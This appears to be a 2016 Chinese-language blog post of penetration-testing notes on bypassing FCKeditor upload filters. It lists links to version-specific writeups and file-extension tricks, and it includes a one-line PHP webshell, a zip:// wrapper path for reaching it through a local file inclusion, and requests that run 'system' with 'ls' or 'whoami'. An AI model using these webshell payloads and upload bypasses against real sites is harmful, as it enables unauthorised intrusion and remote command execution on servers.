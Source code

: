 ```yaml
---
layout:     post
title:      fckeditor各版本绕过
date:       2016-08-12
summary:    fckeditor各版本绕过
categories: web
tags:
 - fckeditor
 - web
 - upload
---
```


### 0x00 fckeditor上传漏洞总结

    http://sec.chinabyte.com/206/13708206.shtml
    http://www.cnbraid.com/2015/07/09/fckeditor/
    http://www.it610.com/article/1842939.htm
    http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf <=2.6.4

### 0x01 asp

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf
    2.6.6
        http://www.hack80.com/thread-320-1-1.html
        http://www.qhwins.com/ShowNews/?11-20109214030542523.html
    2.6.8
        http://www.freebuf.com/vuls/6408.html

### 0x02 php

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf

### 0x03 fckeditor经典尝试后缀

    1>将后缀改成.php.pjpg
    2>将后缀改成.html
    3>将后缀改成.lnk

### 0x04 其它上传技巧

    1>上传时,延迟一下再上传,有时能bypass admin,用到firefox tamper插件
        https://www.youtube.com/watch?v=ndeYnMoFPx8
        管理员登录绕过
            https://www.youtube.com/watch?v=UO-vzWFctTA
            https://www.youtube.com/watch?v=a5fm629s8Ao
                firefox noredirect插件
    2>双文件上传
    3>上传以图片后缀名为后缀的压缩文件,文件实际是一个webshell.php文件的压缩文件(zip),利用lfi漏洞并将lfi要包含
      的文件的参数赋值为:
        zip://archive.zip#webshell.php
        或
        zip://archive.zip#webshell.php&param1=system&param2=ls   ===>这里对应webshell.php为:
            <?php $_GET['param1']($_GET['param2']);?>
      这里适用的情况为:
        a>可上传任意内容文件(通过修改Content-Type等达到目的),但文件会被重命令为以png为后缀文件
        b>找到了lfi漏洞,但是lfi漏洞不能包函.|./|..|..\|...等情况
      更多细节:
        https://www.securusglobal.com/community/2016/08/19/abusing-php-wrappers/
    4>上传图片被resize等修改时,绕过方法: 
        https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
<a href="https://www.idontplaydarts.com/images/phppng.png">phppayload</a>
        x.php?0=system post data:1=whoami
